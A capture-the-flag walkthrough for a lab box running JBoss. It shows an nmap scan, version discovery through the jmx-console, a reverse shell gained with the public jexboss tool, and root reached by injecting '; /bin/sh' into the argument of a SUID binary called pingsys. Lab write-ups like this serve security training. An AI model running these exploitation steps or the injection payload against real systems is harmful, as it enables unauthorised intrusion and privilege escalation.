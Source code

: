 # Jacobtheboss

## Nmap

```
sudo nmap 10.10.166.109 -p- -sS -sV          

PORT      STATE SERVICE      VERSION
22/tcp    open  ssh          OpenSSH 7.4 (protocol 2.0)
80/tcp    open  http         Apache httpd 2.4.6 ((CentOS) PHP/7.3.20)
111/tcp   open  rpcbind      2-4 (RPC #100000)
1090/tcp  open  java-rmi     Java RMI
1098/tcp  open  java-rmi     Java RMI
1099/tcp  open  java-object  Java Object Serialization
3306/tcp  open  mysql        MariaDB (unauthorized)
3873/tcp  open  java-object  Java Object Serialization
4444/tcp  open  java-rmi     Java RMI
4445/tcp  open  java-object  Java Object Serialization
4446/tcp  open  java-object  Java Object Serialization
4457/tcp  open  tandem-print Sharp printer tandem printing
4712/tcp  open  msdtc        Microsoft Distributed Transaction Coordinator (error)
4713/tcp  open  pulseaudio?
8009/tcp  open  ajp13        Apache Jserv (Protocol v1.3)
8080/tcp  open  http         Apache Tomcat/Coyote JSP engine 1.1
8083/tcp  open  http         JBoss service httpd
22764/tcp open  unknown
45592/tcp open  java-rmi     Java RMI
45722/tcp open  unknown
```

{% hint style="info" %}
Add jacobtheboss.box to /etc/hosts before starting
{% endhint %}

Checking our port 80 takes us to a blog post where the user jacob comments about the new content maanger for the company.

![](<../../../.gitbook/assets/image (1331).png>)

Other than this we do not have anything interesting regarding port 80. Checking out port 8080 we see the server is running JBoss.

JBoss is a application server which you can read more about here: [https://www.dnsstuff.com/what-is-jboss-application-server](https://www.dnsstuff.com/what-is-jboss-application-server)

![](<../../../.gitbook/assets/image (1333).png>)

Researching on how to find JBoss version we can check the followin path for this information.

`/jmx-console/HtmlAdaptor?action=inspectMBean&name=jboss.system%3Atype%3DServer`

![](<../../../.gitbook/assets/image (1336).png>)

Checking the VersionNumber field we see we are running version 5.0.0.GA. Researching exploits for this we find a popular exploitation python tool call jexboss.

{% embed url="https://github.com/joaomatosf/jexboss" %}

Download and install as per instructions on the Github page then execute as follows:

```
sudo python2 jexboss.py -u jacobtheboss.box:8080
```

![](<../../../.gitbook/assets/image (1338) (1).png>)

Set up a `netcat` listener on the attacking machine and when prompted to do so enter your attacking machine IP and port. This should gives us a proper reverse shell.

![](<../../../.gitbook/assets/image (1339).png>)

After connecting I transferred over linpeas and executed. Soon linpeas finds that the binary `/usr/bin/pingsys` has a SUIT bit set.

![](<../../../.gitbook/assets/image (1340) (1).png>)

Researching the binary on Google we come to the following post on stackexchange.

{% embed url="https://security.stackexchange.com/questions/196577/privilege-escalation-c-functions-setuid0-with-system-not-working-in-linux" %}

According to the top answer we can execute a command after pingsys which can be used to spawn a shell with the existing permissions of pingsys.

![](<../../../.gitbook/assets/image (1341).png>)

Run the following command on our shell to escalate to a root shell.

```
/usr/bin/pingsys '127.0.0.1; /bin/sh'
```

![](<../../../.gitbook/assets/image (1342).png>)
